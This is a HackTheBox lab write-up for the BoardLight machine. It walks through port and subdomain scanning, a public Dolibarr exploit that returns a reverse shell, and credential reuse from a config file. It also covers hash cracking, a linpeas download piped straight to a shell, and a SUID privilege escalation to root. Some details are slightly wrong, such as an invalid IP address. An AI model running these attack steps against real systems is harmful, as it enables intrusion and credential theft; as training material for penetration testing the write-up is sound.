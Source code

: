```yaml
---
title: BoardLight - HackTheBox Machine WriteUp
date: 2024-10-16 00:00:00 +8000
categories:
  - Writeup
  - HackTheBox
tags:
  - writeup
  - hackthebox
  - htb
  - machine
  - easy
  - linux
image:
  path: /assets/img/post/hackthebox/boardlight/thumbnail.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: HackTheBox Machine BoardLight
---
```

This is my WriteUp for the easy Linux Machine [BoardLight](https://app.hackthebox.com/machines/BoardLight) on [HackTheBox Labs](https://app.hackthebox.com/).  After starting the machine and my penetration testing environment, I connected to the HackTheBox VPN and was ready to start pwning the box.
## Recon
The first step I always do on HackTheBox machines, is executing `whatweb`, to get the hostname of the machine from the IP address:
```shell
$ whatweb 10.10.11.11
```
I got the domain name `board.htb`and added it with the IP address to the `/etc/hosts` file on my local machine.

Then I started to scan the machine for open ports with Nmap:
```shell
$ nmap -sV 10.10.11.11

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
```
The Nmap scan, resulted in two open ports. Port `22`, is a SSH server and is usually not vulnerable on HackTheBox, also the version was quite up-to-date.

On port `80`, a web application was running. Therefore, I used `gobuster` to search the website for hidden files or directories:
```shell
$ gobuster dir -u "http://10.10.11.11" -w /usr/share/wordlists/dirb/big.txt

===============================================================
/.htaccess (Status: 403) [Size: 276]
/.htpasswd (Status: 403) [Size: 276]
/css (Status: 301) [Size: 308] [--> http://10.10.11.11/css/]
/images (Status: 301) [Size: 311] [--> http://10.10.11.11/images/]
/js (Status: 301) [Size: 307] [--> http://10.10.11.11/js/]
/server-status (Status: 403) [Size: 276]
===============================================================
```

I found nothing interesting, so I continued to enumerate the domain for subdomains with `ffuf`. Unfortunately, the domain has many empty subdomains, so I filtered the HTTP response size with the `-fs` flag:
```shell
$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -c -fs 15949

--------------------------------------------
crm [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 78ms]
--------------------------------------------
```
The scan found on subdomain called `crm`, so I added `crm.board.htb` to `/etc/passwd`.

The `crm.board.htb` subdomain runs the Customer Relationship Management(CRM) software **Dolibarr** on version `17.0.0`. 

After searching for "Dolibarr 17.0.0 exploit", I found an [Proof of Concept (PoC) exploit on Github](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253). 
I cloned the repository to my local machine and read through the Python code, to ensure that nothing malicious is happening. Everything looked fine, so I started a reverse shell with Netcat:
```shell
nc -lnvp 5555
```

And after that executed the `exploit.py` file:
```shell
python3 exploit.py http://crm.board.htb admin admin 10.10.55.555 5555
```

And we got the reverse-shell for the user `www-data`!

Now lets get a foothold and elevate our privileges to be able to connect with SSH.

---
## Foothold
After searching around in the website directory, I decided to search for a `conf` directory:
```shell
$ find / -type d -name 'conf'

...
/var/www/html/crm.board.htb/htdocs/conf
...
```
I found one, in side the CRM application directory (`/var/www/html/crm.board.htb/htdocs/conf`) directory.
It contained some configuration files and inside the `conf.php`, I found following database credentials:
```shell
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

I used the `mysql` command line utility to log into the database:
```shell
mysql -u dolibarrowner -p
```

I searched for interesting SQL tables and dumped the content of `llx_user`:
```sql
> USE dolibarr
> SHOW TABLES;
> SELECT * FROM llx_user;
```

The dump contained some hashed credentials:
- `admin:$2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96`
- `dolibarr:$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`

I put the hashes in a file(`hashes`) and used hashcat with the mode (`-m`) `3200`(Blowfish (Unix)) to crack them:
```shell
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
```
After a few seconds hashcat found only the password for the `admin` user, which is also `admin`.

I tried the password with the different users, but it did not work. But then, I remembered the other password in the configuration file (`serverfun2$2023!!`) and tried to login with that as well.

And it worked! We could login as user `larissa` and the password `serverfun2$2023!!` with SSH:
```shell
ssh larissa@board.htb
```

It worked and I could get the user flag from `/home/larissa/user.txt`!

---
## Privilege Escalation
Now, lets escalate our privileges to get access to the `root` user.
So the first thing I always do, is to list the `sudo` capabilities with the `-l` flag:
```shell
sudo -l
```
But it the user `larissa` is not allowed to run `sudo` on the machine.

After that, I moved `linpease.sh` to the machine and executed it:
```shell
$ curl -L http://10.10.14.151:8000/linpease.sh | sh
```
The output showed, that the user `larissa` is in the `adm` group. That usually means, that we can read files in the `/var/log/` directory.

I searched through the log files for the `sudo` and `su` command:
```shell
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```
But I also found anything interesting.

Then I tried to list all binaries, where the SUID bit is set:
```shell
find / -perm -u=s -type f 2>/dev/null
```
And a unusual executable called `freqset` was listed.

I researched the binary name and found an [exploit for it on Github](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit). Again I cloned it to my machine, and read through the bash script, to check what it does and if anything malicious is happening.

Everything looked fine again, I moved the `exploit.sh` script to the target machine and executed it. 

This resulted in a `root` shell and could read the `/root/root.txt` file and got the flag!

---
## Exploit Chain
**Recon:**
1. Port scan with `nmap`
2. Enumerate subdomains with `ffuf`
3. Search for Dolibarr version `17.0.0.` vulnerabilities
4. Use the PoC to get a reverse shell

**Foothold:**
5. Search for configuration files
6. Get the database password
7. Test if the password was reused
8. Login with SSH as user `larissa`

**Privilege Escalation:**
9. Research binaries with the SUID bit set for vulnerabilities
10. Exploit the `freqset` vulnerability to get a `root` shell

---
## Resources
- [Dolibarr exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)
- [`freqset` exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
